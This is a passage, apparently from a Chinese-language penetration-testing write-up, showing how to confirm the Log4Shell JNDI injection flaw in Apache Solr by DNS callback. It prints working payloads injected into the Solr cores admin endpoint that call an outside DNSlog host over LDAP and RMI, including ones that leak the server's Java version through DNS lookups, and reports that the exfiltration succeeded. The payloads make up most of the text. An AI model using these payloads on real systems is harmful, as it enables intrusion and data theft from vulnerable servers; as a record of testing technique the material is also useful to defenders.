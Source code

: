 ##### 2.dns回显验证

在注入点插入Payload

```
/solr/admin/cores?action=${jndi:ldap://vbdpkn.ceye.io}
```

![image-20230917110150137](assets/1697159019_6528976b12255c8bcdeba.png)

查看cecy是否返回数据

![image-20230908111139848](assets/1697159019_6528976b87efa5efe8137.png)

查看java版本

```
${jndi:ldap://${sys:java.version}.vbdpkn.ceye.io}
${jndi:rmi://${sys:java.version}.vbdpkn.ceye.io}
${jndi:ldap://DNSlog地址/exp} //DNSolg地址
```

成功通过dnslog带了出来，对应的java版本
